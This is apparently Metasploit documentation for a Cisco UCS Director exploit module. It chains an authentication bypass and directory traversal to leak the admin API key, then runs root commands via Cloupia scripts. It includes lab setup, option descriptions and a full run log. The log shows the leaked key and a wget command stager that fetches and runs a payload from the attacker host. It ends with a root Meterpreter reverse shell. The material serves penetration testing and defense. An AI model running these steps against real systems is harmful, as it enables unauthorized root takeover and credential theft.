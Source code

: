 ## Vulnerable Application

### Description

This module exploits an authentication bypass and directory traversals
in Cisco UCS Director < 6.7.4.0 to leak the administrator's REST API
key and execute a Cloupia script containing an arbitrary root command.

Note that the primary functionality of this module is to leverage the
Cloupia script interpreter to execute code. This functionality is part
of the application's intended operation and considered a "foreverday."
The authentication bypass and directory traversals only get us there.

If you already have an API key, you may set it in the `API_KEY` option.
The `LEAK_FILE` option may be set if you wish to leak the API key from a
different absolute path, but normally this isn't advisable.

Tested on Cisco's VMware distribution of 6.7.3.0.

### Setup

**Note:** You will need a Cisco account to proceed, particularly for
**software.cisco.com**. _\*Cough\*_

1. Download
   [CUCSD_6_7_3_0_67414_VMWARE_SIGNED_EVAL.zip](https://software.cisco.com/download/home/286320555/type/285018084/release/6)
2. Unzip `CUCSD_6_7_3_0_67414_VMWARE_SIGNED_EVAL.zip` and unzip
   `CUCSD_6_7_3_0_67414_VMWARE_GA.zip` inside it
3. Import `CUCSD_6_7_3_0_67414.ovf` into VMware or your preferred
   virtualization software
4. Start the VM and wait for the system to finish booting
5. Visit <https://[RHOST]/app/ui/login.jsp>, where `[RHOST]` is the
   target's IP
6. Wait nearly forever for the system to finish initializing
7. Sign in with `admin:admin` to log the admin's REST API key in
   `/opt/infra/idaccessmgr/logfile.txt`

You are now ready to test the module using the steps below.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### API_KEY

If you already have an admin REST API key, you can authenticate with it
by setting this option.

### LEAK_FILE

This is the file to leak the API key from, specified as an absolute
path. It defaults to `/opt/infra/idaccessmgr/logfile.txt`, and you
shouldn't need to change it.

## Scenarios

### Cisco UCS Director 6.7.3.0 VMware distribution

```
msf5 > use exploit/linux/http/cisco_ucs_cloupia_script_rce
msf5 exploit(linux/http/cisco_ucs_cloupia_script_rce) > options

Module options (exploit/linux/http/cisco_ucs_cloupia_script_rce):

   Name       Current Setting                     Required  Description
   ----       ---------------                     --------  -----------
   API_KEY                                        no        API key if you have it
   LEAK_FILE  /opt/infra/idaccessmgr/logfile.txt  yes       Leak API key from this file (absolute path)
   Proxies                                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443                                 yes       The target port (TCP)
   SRVHOST    0.0.0.0                             yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080                                yes       The local port to listen on.
   SSL        true                                no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                   yes       Base path
   URIPATH                                        no        The URI to use for this exploit (default is random)
   VHOST                                          no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf5 exploit(linux/http/cisco_ucs_cloupia_script_rce) > set rhosts 172.16.249.158
rhosts => 172.16.249.158
msf5 exploit(linux/http/cisco_ucs_cloupia_script_rce) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(linux/http/cisco_ucs_cloupia_script_rce) > run

[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Target is running Cisco UCS Director.
[*] Creating exports directory
[+] Successfully created exports directory
[*] Leaking API key from /opt/infra/idaccessmgr/logfile.txt
[+] Successfully dumped /opt/infra/idaccessmgr/logfile.txt
[+] Found API key: FE30858BE2FD4BAB8208F5A1DE909AAD
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/vV8W6PFtOmPZIe
[*] Local IP: http://192.168.1.3:8080/vV8W6PFtOmPZIe
[*] Generated command stager: ["wget -qO /tmp/BaebLrFX http://172.16.249.1:8080/vV8W6PFtOmPZIe;chmod +x /tmp/BaebLrFX;/tmp/BaebLrFX;rm -f /tmp/BaebLrFX"]
[*] Executing command: wget -qO /tmp/BaebLrFX http://172.16.249.1:8080/vV8W6PFtOmPZIe;chmod +x /tmp/BaebLrFX;/tmp/BaebLrFX;rm -f /tmp/BaebLrFX
[+] Successfully executed command: wget -qO /tmp/BaebLrFX http://172.16.249.1:8080/vV8W6PFtOmPZIe;chmod +x /tmp/BaebLrFX;/tmp/BaebLrFX;rm -f /tmp/BaebLrFX
[*] Client 172.16.249.158 (Wget/1.12 (linux-gnu)) requested /vV8W6PFtOmPZIe
[*] Sending payload to 172.16.249.158 (Wget/1.12 (linux-gnu))
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.158:35570) at 2020-05-10 05:46:44 -0500
[*] Server stopped.

meterpreter > getuid
Server username: root @ localhost (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdom
OS           : CentOS 6.7 (Linux 2.6.32-754.6.3.el6.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
